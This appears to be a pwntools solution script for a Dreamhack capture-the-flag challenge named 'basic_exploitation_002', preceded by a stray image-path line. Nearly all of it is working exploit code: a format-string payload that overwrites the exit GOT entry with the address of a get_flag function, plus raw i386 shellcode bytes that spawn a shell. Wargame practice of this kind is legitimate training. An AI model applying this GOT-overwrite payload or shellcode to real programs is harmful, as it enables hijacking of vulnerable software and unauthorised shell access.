 from pwn import *

context.arch='i386'
#context.log_level="debug"

#conn = remote("host1.dreamhack.games", 13731)
conn = process("basic_exploitation_002")


#shellcode = asm(shellcraft.linux.sh())
#shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80"
shellcode = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"

exit_got = 0x0804a024
get_flag = 0x08048609

# "\x26\xa0\x04\x08"+"\x24\xa0\x04\x08"+"%2044x"+"%1$hn"+"%32261x"+"%2$hn"

payload  = b""
payload += p32(exit_got)
payload += p32(exit_got+2)
payload += b"%2044x"
payload += b"%2$hn"
payload += b"%32261x"
payload += b"%1$hn"

conn.send(payload)

with open("payload", "wb") as fd:
    fd.write(payload)


conn.interactive()
